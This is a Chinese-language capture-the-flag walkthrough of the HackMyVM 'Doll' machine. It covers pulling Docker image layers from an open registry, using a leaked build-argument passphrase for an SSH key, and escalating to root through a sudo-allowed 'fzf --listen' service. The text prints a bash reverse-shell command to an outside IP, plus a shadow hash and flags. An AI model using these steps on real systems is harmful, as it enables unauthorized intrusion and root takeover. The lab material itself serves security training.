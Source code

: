 # Doll

2025.03.12 https://hackmyvm.eu/machines/machine.php?vm=Doll

[video]()

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
1007/tcp open  unknown
```

1007 端口显示为 Docker Registry (API: 2.0) ， 目录扫描出 http://192.168.5.39:1007/v2

http://192.168.5.39:1007/v2/_catalog

```json
{
    "repositories": ["dolly"]
}
```

http://192.168.5.39:1007/v2/dolly/tags/list

```json
{
    "name": "dolly",
    "tags": ["latest"]
}
```

http://192.168.5.39:1007/v2/dolly/manifests/latest

```json
{
    "schemaVersion": 1,
    "name": "dolly",
    "tag": "latest",
    "architecture": "amd64",
    "fsLayers": [
        {
            "blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
        },
        {
            "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
        },
        {
            "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
        },
        {
            "blobSum": "sha256:f56be85fc22e46face30e2c3de3f7fe7c15f8fd7c4e5add29d7f64b87abdaa09"
        }
    ],
    "history": [
        {
            "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"10ddd4608cdf\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"doll\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"container\":\"10ddd4608cdfd81cd95111ecfa37499635f430b614fa326a6526eef17a215f06\",\"container_config\":{\"Hostname\":\"10ddd4608cdf\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"doll\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"created\":\"2023-04-25T08:58:11.460540528Z\",\"docker_version\":\"23.0.4\",\"id\":\"89cefe32583c18fc5d6e6a5ffc138147094daac30a593800fe5b6615f2d34fd6\",\"os\":\"linux\",\"parent\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\"}"
        },
        {
            "v1Compatibility": "{\"id\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\",\"parent\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"comment\":\"buildkit.dockerfile.v0\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"ARG passwd=devilcollectsit\"]},\"throwaway\":true}"
        },
        {
            "v1Compatibility": "{\"id\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"parent\":\"cf9a548b5a7df66eda1f76a6249fa47037665ebdcef5a98e7552149a0afb7e77\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) CMD [\\\"/bin/sh\\\"]\"]},\"throwaway\":true}"
        },
        {
            "v1Compatibility": "{\"id\":\"cf9a548b5a7df66eda1f76a6249fa47037665ebdcef5a98e7552149a0afb7e77\",\"created\":\"2023-03-29T18:19:24.348438709Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:9a4f77dfaba7fd2aa78186e4ef0e7486ad55101cefc1fabbc1b385601bb38920 in / \"]}}"
        }
    ],
    "signatures": [
        {
            "header": {
                "jwk": {
                    "crv": "P-256",
                    "kid": "2Z7Q:7NQ3:Z7YC:AV7H:2ABM:YQSQ:CC6X:XKC7:A7VI:ICWO:GOJW:KTEM",
                    "kty": "EC",
                    "x": "AWecc5ox53LzWanJD3_RuDVBiN4Jo79hSwXsOc6JbaM",
                    "y": "9R6TbMkjhphceMB-8t3dh6cztVX75kpZC7Uaj5gJGg8"
                },
                "alg": "ES256"
            },
            "signature": "DgoqSopZ7nHVd7VMxQeQaMgfCHjJljbRWiPCT32j4Sw4hHtVRvBeSiVqxO6zU2kJnDK-Bg4IE2IZJnNlLw0RTQ",
            "protected": "eyJmb3JtYXRMZW5ndGgiOjI4MjksImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAyNS0wMy0xMlQwNTo1MzowMloifQ"
        }
    ]
}
```

复制上面每一个 blobSum 到这个 url 后面 , 访问下面 3 个 url 后得到 tar.gz 下载包(手动修改文件后缀名)，解压查看可能存在的敏感信息：

```
(1) http://192.168.5.39:1007/v2/dolly/blobs/sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017
(2) http://192.168.5.39:1007/v2/dolly/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
(3) http://192.168.5.39:1007/v2/dolly/blobs/sha256:f56be85fc22e46face30e2c3de3f7fe7c15f8fd7c4e5add29d7f64b87abdaa09
```

也可以使用下面这个脚本进行自动枚举和下载 https://github.com/NotSoSecure/docker_fetch/blob/master/docker_image_fetch.py

其中在第一个下载链接对应的 gz 包中，发现了 /etc/passwd 文件，发现用户名 bela 并且发现 /etc/shadow 文件：

```
bela:$6$azVVFjn.mkvh.lhA$yAXPBGOZDXRdDBmn3obtzhUzxwfDD7u3YIcixohpKzTGpJS0Oeu7UVoguhmwg4DHNM8K5z7Tn93BBaDadM/A5.:19472:0:99999:7:::
```

没爆破出来，但是又在这个 gz 包中发现了用户的私钥连接文件 /home/bela/.ssh/id_rsa 私钥有密码，尝试爆破，没结果。

这里没有其他的信息了，在仔细看一下上面返回的 manifests ，这里看到可能是密码 ARG passwd=devilcollectsit 在密钥处输入这个字符串 devilcollectsit，登陆成功。

先拿到了 user flag：

```
bela@doll:~$ cat user.txt
juHDnnGMYNIkVgfnMV
```

sudo -l 显示 `(ALL) NOPASSWD: /usr/bin/fzf --listen\=1337` man 查看帮助 fzf - a command-line fuzzy finder 是一个内容模糊查找提示软件。

尝试执行: `sudo -u root /usr/bin/fzf --listen=1337` 在 127.0.0.1 上会创建一个在 web 上可以执行搜索的服务，在目标机器上使用 curl 发送 execute 命令(fzf --bind "enter:execute(less {})")：

```
curl http://127.0.0.1:1337/ -d 'execute(echo 1 > /tmp/test.txt)'
```

这时发现/tmp 目录中以 root 用户生成了 test.txt 文件，这时就可以执行反弹 shell，获得 root 权限：

```
curl http://127.0.0.1:1337/ -d 'execute(/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1)'
```

拿到了最终的 root flag:

```
root@doll:~# cat root.txt
xwHTSMZljFuJERHmMV
```
